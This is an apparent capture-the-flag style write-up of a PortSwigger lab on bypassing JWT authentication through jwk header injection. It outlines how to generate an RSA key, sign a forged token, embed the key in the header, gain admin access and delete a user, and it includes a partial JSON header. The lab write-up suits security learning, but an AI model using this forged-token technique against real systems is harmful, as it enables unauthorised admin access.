


# [Lab: JWT authentication bypass via jwk header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)

## Lab

This lab uses a JWT-based mechanism for handling sessions. The server supports the  `jwk`  parameter in the  [JWT](https://portswigger.net/web-security/jwt)  header. This is sometimes used to embed the correct verification key directly in the token. However, it fails to check whether the provided key came from a trusted source.

To solve the lab, modify and sign a JWT that gives you access to the admin panel at  `/admin`, then delete the user  `carlos`.

You can log in to your own account using the following credentials:  `wiener:peter`

## Solution

intercept a request contains jwt.

generate RSA key:


sign with rsa:


copy key to `jwk` at header:

```json
{
    "kid": "2b02f383-bc32-45ff-8067-8079b70b90e8",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "p": "-m6TGEZy1OEuMUc9D8ws1FTtAyaD2OVpGBDauMOIVmbRKFkkaHfAR-qk7A1szo-VtW4mZ3vkD-9bGRNQ7ttEFhaPz1iArG0gveJTcdliLoaGxL9aVEWlXF6wJtKcn9HPaPxQzMWmrEOr1g4yb8yUmrWZeCiGATSYgjKvVEwULuE",
        ...
        "e": "AQAB",
        "kid": "2b02f383-bc32-45ff-8067-8079b70b90e8",
        ...
    }
}
```

now we can use this jwt to login as administrator and delete carlos.
